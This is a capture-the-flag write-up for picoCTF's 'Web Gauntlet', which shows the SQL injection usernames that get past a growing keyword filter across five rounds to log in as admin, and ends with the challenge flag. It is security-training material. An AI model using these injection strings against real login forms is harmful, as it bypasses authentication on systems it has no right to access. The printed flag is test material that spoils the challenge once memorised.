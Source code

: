 <h1>Web Gauntlet</h1>
<p>Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php</p>
<p>Hint :</p>
<ul>
  <li>You are not allowed to login with valid credentials.</li>
  <li>Write down the injections you use in case you lose your progress.</li>
  <li>For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.</li>
  <li>sqlite</li>
  <li>If your cookie keeps getting reset, try using a private browser window</li>
</ul>

<h3>Solution</h3>
<p>Query : SELECT * FROM users WHERE username=' ' AND password=' '</p>
<p>Round 1 :</p>

```
Username : admin' -- -
Password : 123
```
<p>Round 2 : or and like = --</p>

```
Username : admin' /*
Password : 123
```
<p>Round 3 : or and = like > < --</p>
  
 ```
 Username : admin';
 Password : 123
 ```
<p>Round 4 : or and = like > < -- admin</p>
 
 ```
 Username : adm'||'in';
 Password : 123
 ```
<p>Round 5 : or and = like > < -- union admin</p>
  
 ```
 Username : adm'||'in';
 Password : 123
 ```
 <h3>Flag</h3>
 <p>picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}</p>
